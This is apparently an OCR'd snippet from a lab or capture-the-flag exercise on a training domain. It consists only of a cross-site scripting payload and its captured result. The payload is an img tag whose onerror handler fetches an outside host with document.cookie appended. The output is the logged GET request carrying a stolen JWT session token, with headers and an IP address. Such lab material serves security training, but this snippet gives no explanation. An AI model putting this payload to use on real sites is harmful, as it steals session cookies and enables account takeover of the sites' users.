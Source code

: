 ```html
<img
  src="x"
  onerror="fetch('https://05a51047-0e70-43ee-a085-69ef61560b34.idocker.vuln.land/abcd?cookie=' + document.cookie);"
/>
```

```
GET /abcd?cookie=token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJqdGkiOiI0MmJjZmQ4Ni04NDExLTQ3MTctYWU2OC05ZTQwNzBmN2ZlZWYiLCJ1aWQiOjEwMiwiZXhwIjoxNjk2NzU3MDYwfQ.pr2mgrRDWTZxN4Z6SK33PMxqirUShgAbpOn9IzIFIaE HTTP/1.1
Host: 05a51047-0e70-43ee-a085-69ef61560b34.idocker.vuln.land
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Origin: https://72bd88d5-fe81-4d24-b274-ba5596c25e37.idocker.vuln.land
Referer: https://72bd88d5-fe81-4d24-b274-ba5596c25e37.idocker.vuln.land/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Te: trailers
X-Forwarded-For: 51.154.62.18
X-Forwarded-Host: 05a51047-0e70-43ee-a085-69ef61560b34.idocker.vuln.land
X-Forwarded-Port: 443
X-Forwarded-Proto: https
X-Forwarded-Server: vm-docker-01.vuln.land
X-Real-Ip: 51.154.62.18
```
